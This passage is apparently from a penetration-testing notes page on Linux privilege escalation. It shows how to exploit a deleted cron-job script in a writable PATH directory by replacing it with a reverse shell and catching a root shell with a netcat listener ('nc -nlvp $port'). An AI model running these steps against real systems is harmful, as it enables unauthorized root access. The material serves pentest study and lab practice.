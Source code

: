***

* Create a listening port with netcat to receive the shell

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>nc -nlvp $port
</strong>#You will receive a root shell
</code></pre>

{% hint style="info" %}
_$port_ is the port specified in the reverse shell script
{% endhint %}

## <mark style="color:orange;">Abusing deleted cron jobs</mark>

* Verify executables set as cron jobs

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cat /etc/crontab
</strong>#Example results
PATH:/home/user:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
...
* * * * * root file.sh
</code></pre>

{% hint style="info" %}
* _file.sh_ is an arbitrary name used as an example. It can be another bash file or executable
* We have to keep in mind the path of the _/etc/crontab_ file
{% endhint %}

***

* Verify if the executable was deleted and create one with the same name

{% code overflow="wrap" lineNumbers="true" %}
```bash
locate file.sh    #This will show nothing, which means that it was deleted
cd /home/user
nano file.sh    # The content will be a reverse shell script
```
{% endcode %}

{% hint style="info" %}
Note that the folder we navigate to is the one that was listed in _/etc/crontab_
{% endhint %}

***

* Create a listening port with netcat to receive the shell

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>nc -nlvp $port
</strong>#You will receive a root shell
</code></pre>

{% hint style="info" %}
_$port_ is the port specified in the reverse shell script
{% endhint %}
